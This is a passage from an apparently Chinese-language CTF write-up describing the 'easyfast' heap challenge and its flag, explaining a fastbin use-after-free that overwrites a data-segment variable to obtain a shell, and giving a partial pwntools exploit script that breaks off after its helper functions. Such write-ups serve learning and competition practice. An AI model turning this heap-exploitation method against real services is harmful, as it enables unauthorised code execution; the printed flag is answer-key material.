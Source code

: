 ```c
	cmd(3)
	p.send("\x00"*0x40)
	p.interactive()
	
if __name__ == "__main__":
	main(args['REMOTE'])
```

## easyfast - 2 solves

> Author: ColdShield

flag:`wctf2020{THE_MOST_EASY_FASTBINATTACK}`

预期是最简单的fastbin attack（但是出题是在比赛前夕补上的一道，粗心没给下标做检查导致和前面的题变成一个性质了...）

程序只能malloc三次，而且三次都只能是fast chunk，free的时候没有检查指针也没有对指针清零，Modify也是直接read 8个字节，没有多余检查

程序getshell只需要满足data段的变量为0即可，然后在data段上有一个0x50的fakesize

![GnjA6U.png](https://s1.ax1x.com/2020/03/30/GnjA6U.png)

所以思路就是 

`malloc(0x48)->free(array[0])->modify(array[0],p64(&fakesize-8))`

`->malloc(0x48)->malloc(0x48)->modify(array[0],p64(0))`

**exp**

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = './easyheap'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here
'''
Host ='101.200.53.102'
Port =22222
p = remote(Host,Port)
'''

elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\x00'))
my_u32 = lambda x: u32(x.ljust(4, '\x00'))
global_max_fast=0x3c67f8
def loginfo(what='',address=0):
	log.info("\033[1;36m" + what + '----->' + hex(address) + "\033[0m")

# todo here
def Alloc(size):
	p.recvuntil("choice>\n")
	p.sendline("1")
	p.recvuntil("size>\n")
	p.sendline(str(size))

def Free(index):
	p.recvuntil("choice>\n")
	p.sendline("2")
	p.recvuntil("index>\n")
	p.sendline(str(index))
```
